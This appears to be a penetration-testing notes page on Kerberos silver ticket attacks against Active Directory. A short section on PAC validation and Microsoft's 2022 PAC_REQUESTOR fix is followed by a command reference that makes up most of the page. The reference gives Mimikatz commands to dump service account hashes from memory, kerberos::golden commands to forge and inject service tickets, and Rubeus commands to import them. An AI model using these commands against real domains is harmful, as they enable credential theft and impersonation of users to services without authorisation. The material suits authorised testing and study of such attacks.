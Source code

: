 ### PAC Validation and Security Considerations

**Privileged Account Certificate (PAC) Validation:**
- **Purpose**: Verify user permissions with domain controller
- **Implementation**: Rarely enabled in production environments
- **Bypass**: Silver tickets work when PAC validation disabled
- **Detection**: PAC validation requests generate logs

**Microsoft Security Updates:**
- **PAC_REQUESTOR Field**: Enhanced PAC structure validation
- **Enforcement Date**: October 11, 2022
- **Impact**: Prevents forging tickets for non-existent users
- **Limitation**: Only effective when client and KDC in same domain

### Silver Ticket Commands Reference

**Information Gathering:**
```powershell
# Test baseline access
iwr -UseDefaultCredentials <target_url>

# Extract service account hash
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# Obtain domain SID
whoami /user

# Identify target SPN
setspn -L <service_account>
```

**Silver Ticket Creation:**
```mimikatz
# Basic silver ticket
kerberos::golden /sid:<domain_sid> /domain:<domain> /ptt /target:<target> /service:<service> /rc4:<hash> /user:<user>

# Silver ticket with custom lifetime
kerberos::golden /sid:<domain_sid> /domain:<domain> /ptt /target:<target> /service:<service> /rc4:<hash> /user:<user> /startoffset:-10 /endin:600 /renewmax:10080

# Silver ticket without PTT (save to file)
kerberos::golden /sid:<domain_sid> /domain:<domain> /target:<target> /service:<service> /rc4:<hash> /user:<user> /ticket:<filename>
```

**Ticket Management:**
```powershell
# List current tickets
klist

# Clear all tickets
klist purge

# Import ticket from file
.\Rubeus.exe ptt /ticket:<ticket_file>
```
